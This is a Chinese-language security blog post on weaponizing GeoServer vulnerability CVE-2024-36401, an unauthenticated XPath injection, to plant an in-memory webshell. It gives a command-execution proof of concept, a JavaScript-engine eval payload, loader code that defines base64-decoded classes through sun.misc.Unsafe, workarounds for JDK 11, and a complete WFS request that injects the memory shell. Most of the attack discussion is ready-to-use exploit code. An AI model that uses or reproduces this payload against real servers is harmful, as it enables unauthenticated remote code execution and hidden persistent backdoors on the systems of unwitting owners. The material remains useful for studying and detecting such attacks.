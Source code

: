 #  GeoServer property RCE注入内存马   
原创 yzddMr6  网络安全回收站   2024-07-04 21:07  
  
## 背景  
  
GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。from https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2024-36401/  
  
本文主要研究如何武器化利用，注入内存马。  
## 注入内存马  
  
目前市面上公开的POC主要是做到了命令执行：  
```
exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')
```  
  
Apache XPath解析表达式是支持链式调用的，是非常常见的一个表达式注入场景。虽然也可以用ClassPathXmlApplicationContext或者JNDI这种远程加载的方式去加载类，但是总归是有限制，不优雅。可以参考我之前在Kcon上讲过的议题《Java表达式攻防下的黑魔法》，可以利用Js引擎将这类链式调用的命令执行转化为完全体的任意代码执行，并且无需出网，无需额外依赖
Y4tacker也在之前的文章中提到了怎么构造Js引擎的Poc：https://tttang.com/archive/1771/  
```
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec("open -na Calculator")')
```  
  
似乎只需要把Js执行的Payload换成我之前议题中给出的Payload即可：https://github.com/yzddmr6/Java-Js-Engine-Payloads  
  
但是实际上实现的时候有两个坑  
### 无法使用函数  
  
首先利用JMG生成内存马注入代码。由于通过bin形式安装默认是Jetty，这里选择Jetty类型  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUQBFGngwJpJR1A1GGTPXvtFT5GpLOSQNdsJ7cGsbiciasDUibLVXmMMvsw/640?wx_fmt=png&from=appmsg "")  
  
然后将code部分替换  
```
function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafe.setAccessible(true);
    unsafe = theUnsafe.get(null);
    unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), classBytes, null).newInstance();
}

defineClass(Base64DecodeToByte(code));
```  
  
  
打这个漏洞如果返回java.lang.ClassCastException是正常的，但是出现了下面的报错，说明有问题了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUcXu53T9Iic1f86UHWBrcXYmLSpicnwaY9VibyFz9kHccibpH9nEKEicHAzw/640?wx_fmt=png&from=appmsg "")  
  
经过多次测试，发现这里的Payload不能用function的语法。十分神秘，单独测试Js引擎没有这个问题，暂时没有去深入研究原因。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeU9icT9ibHiaLZG1hb24ClDL0AFh5iacQMC7h9qaYSrH4zQwtjL6RMHtte7w/640?wx_fmt=png&from=appmsg "")  
### JDK11下的defineAnonymousClass  
  
重新改成不带function的形式，又出现了另外一个报错![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUZsTJoV69Pw7sdobf1OjbnZOZ4yKDNib2AibxzGlCxgicLwhONKY2ySHpg/640?wx_fmt=png&from=appmsg "")  
发现原因是JDK>8时，defineAnonymousClass做了限制，被加载的Class要满足两个条件之一：  
1. 没有包名  
  
1. 包名跟第一个参数Class的包名一致，此处为java.lang，否则会报错  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUQuOVsC9XOvHzrE4EeaoBgAFibP7ldEPAn725XWbicyA4UmLsKnxtY0zg/640?wx_fmt=png&from=appmsg "")  
而JDK8及以下无此限制![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUjSux0D6j7fOM52QPWNGFp6ILY68SmFB1TvExTVJNTOuPy9bYKJL93g/640?wx_fmt=png&from=appmsg "")  
正好JMG提供了修改注入器类名的功能，这里我们随便起一个java.lang.test的名字![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUvMw2iaFha80fZgKCI1B9IBljMb0P9n0exibI9RbHyZiaMRX703MMDX94w/640?wx_fmt=png&from=appmsg "")  
  
  
终于不报错了，注入成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUlO0Q4oAg3gL6qfteMYPdrjN5NRwFHOGWvnAo2s2JYMcMC7oj724ibxA/640?wx_fmt=png&from=appmsg "")  
  
连接的时候发现JMG的Jetty-AntSword-Listener类型似乎有BUG，打进去连接不上
随后换成Filter连接成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LtiayO136fU4IFpKSwoqKg8ic71tJicvTeUHOv77xB931lQvsYBQULXh6NnzBficSlEfBt04RLVHMHiboibO1X1iahhRQ/640?wx_fmt=png&from=appmsg "")  
  
注入内存马Payload  
```
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```  
  
  
